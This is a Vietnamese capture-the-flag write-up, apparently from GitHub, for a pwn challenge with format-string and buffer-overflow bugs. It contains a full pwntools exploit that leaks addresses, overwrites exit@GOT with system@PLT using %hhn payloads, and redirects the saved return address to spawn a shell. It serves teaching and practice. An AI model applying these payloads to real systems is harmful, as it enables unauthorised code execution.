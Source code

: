 # ret2libc or format string

## IDA
```c
void __noreturn exit_f()
{
  exit((int)exit_code);
}

int win()
{
  return system("cat fmt");
}

__int64 fmt()
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  do
  {
    puts("den duoc day r ak");
    puts("phai lam gi day?????");
    fgets(s, 24, stdin);
    printf(s);                      // fmt
    putchar(10);
  }
  while ( strlen(s) <= 0xB );
  puts("end");
  return 0LL;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  init(argc, argv, envp);
  puts("ret2win or fmt");
  read(0, buf, 16uLL);      
  printf(buf);              //fmt
  puts("8==D");
  read(0, buf, 80uLL);      //bof
  return 0;
}
```

## Phân tích

- Đọc kĩ ida thì ta thấy có lỗi bof và fmt, có hàm system tuy nhiên nó chỉ thực hiện `cat fmt` không phải flag
- Lúc này ta cần đọc kĩ hơn nữa có hàm `exit_f` thực thi `exit(exit_code)` tuy nhiên khi bấm vào exit_code ta thấy có chuỗi /bin/sh
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/99b1693b-3546-4fdb-9590-38ac07f70edb)
- Tóm tắt lại hướng khai thác
    ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/9aacf585-d375-4911-8e56-3b0beb4a9ceb)

## Khai thác
### ret2win - dến hàm fmt()
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  init(argc, argv, envp);
  puts("ret2win or fmt");
  read(0, buf, 16uLL);      
  printf(buf);              //fmt
  puts("8==D");
  read(0, buf, 80uLL);      //bof
  return 0;
}
```

- Trong hàm main cho ta 2 lần nhập, có lỗi fmt và ret2win
- Do ta chỉ được sử dụng fmt 1 lần, nên ta sẽ dùng lỗi fmt để leak exe, tính exe base, và dùng lỗi ret2win để ghi đè saved rip trỏ đến fmt


```python
sa(b"fmt", b"%17$p")
p.recvline()
exe_leak = int(p.recv(14), 16)
exe.address = exe_leak - exe.sym['main']
info("exe leak: " + hex(exe.address))
sa(b"8==D", b"a"*72 + p64(exe.sym['fmt']+5))
```

- Do địa chỉ mình leak ra là `<main+0>` nên mình mới dùng `exe.address = exe_leak - exe.sym['main']` cho nhanh (`exe.sym['main']` là offset)

## ow exit.got() = system.plt()
- Lí do mình ow `exit.got` là như này:
    - `int system(const char *command)` hoạt động với 1 tham số rdi - Ví dụ: `system("cat flag.txt")`, thì nó sẽ thực thi lệnh `cat flag.txt`. Và thanh rdi nhận vào là một địa chỉ (ví dụ 0x1234 đang chứa chuỗi "cat flag.txt")
    - `void exit(int status);`
    - Cả `system()` và `exit()` đều chỉ sử dụng 1 tham số là rdi
    > Do đó khi exit() có thanh ghi rdi trỏ đến địa chỉ chứa `/bin/sh` thì mình mới nảy sinh ý tưởng là ow `exit()` thành `system()`
- Ý tưởng là vậy, ta nhìn vào code xem chương trình làm gì
```c
__int64 fmt()
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  do
  {
    puts("den duoc day r ak");
    puts("phai lam gi day?????");
    fgets(s, 24, stdin);
    printf(s);
    putchar(10);
  }
  while ( strlen(s) <= 0xB );
  puts("end");
  return 0LL;
}
```
- Hàm sẽ luôn kiểm tra payload của mình xem có vượt quá 12 kí tự không, nhưng nếu muốn khai thác lỗi fmt thì ta cần payload khá dài (cỡ 24byte)
- Một lí thuyết mới nữa là `strlen()` dừng đến khi gặp null byte, vậy bypass nó bằng cách nhập null byte ở đầu payload chăng?
- +1 lí thuyết nữa là hàm `printf()` đừng thực thi khi gặp null byte, vậy nên nhập null byte ở đầu là không khả thi =))
- Do vậy ta sẽ có payload như sau `%n + padding bằng nullbyte + địa chỉ`, 12 byte nhằm mục đích hạn chế số byte ow trong 1 lần fmt
- ví dụ: `%255c%10$hhn` thì ta được ow 1 byte thay vì 2 byte
- Leak 1 vài địa chỉ
```python
sla(b"?????", b"%17$p")
p.recvline()
stack_leak = int(p.recvline(keepends = False), 16)
info("stack leak: " + hex(stack_leak))
ret = stack_leak - 0x100
info("ret: " + hex(ret))
```

- Ghi đè
```python
plt_system = exe.plt['system']
got_exit = exe.got['exit']
info("got exit: " + hex(got_exit))
info("plt system: " + hex(plt_system))
for i in range(0,6):
        info("" + str(i))
        payload = f"%{plt_system & 0xff}c%8$hhn".encode().ljust(16,b"\0") + p64(got_exit)
        sla(b"?????", payload)
        plt_system = plt_system >> 8
        got_exit+= 1
```
- Trước khi ow
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/491f8de4-684d-4321-b3a6-401071951a04)


- Sau khi ow
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/82072c58-c6a3-4edd-8c7c-d3cbeccbbd31)

## ow saved rip trỏ về exit_f
- tương tự như trên
```python
nowin = exe.sym['exit_f'] + 5
for i in range(0, 6):
        payload = f"%{nowin & 0xff}c%8$hhn".encode().ljust(16, b"\0") + p64(ret)
        sla(b"?????", payload)
        nowin = nowin >> 8
        ret += 1
sl(b"a"*15) # cố tình gây lỗi để thực thi return 
```

### Kết quả

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/268fd3f1-3917-4885-8f01-f6c439576c9c)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*fmt+93
                b*main+130
                b*fmt+126
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()

sa(b"fmt", b"%17$p")
p.recvline()
exe_leak = int(p.recv(14), 16)
exe.address = exe_leak - exe.sym['main']
info("exe leak: " + hex(exe.address))
sa(b"8==D", b"a"*72 + p64(exe.sym['fmt']+5))


sla(b"?????", b"%17$p")
p.recvline()
stack_leak = int(p.recvline(keepends = False), 16)
info("stack leak: " + hex(stack_leak))
ret = stack_leak - 0x100
info("ret: " + hex(ret))

plt_system = exe.plt['system']
got_exit = exe.got['exit']

info("got exit: " + hex(got_exit))
info("plt system: " + hex(plt_system))
for i in range(0,6):
        info("" + str(i))
        payload = f"%{plt_system & 0xff}c%8$hhn".encode().ljust(16,b"\0") + p64(got_exit)
        sla(b"?????", payload)
        plt_system = plt_system >> 8
        got_exit+= 1
nowin = exe.sym['exit_f'] + 5
for i in range(0, 6):
        payload = f"%{nowin & 0xff}c%8$hhn".encode().ljust(16, b"\0") + p64(ret)
        sla(b"?????", payload)
        nowin = nowin >> 8
        ret += 1
sl(b"a"*15) # cố tình gây lỗi để thực thi return 

p.interactive()
```
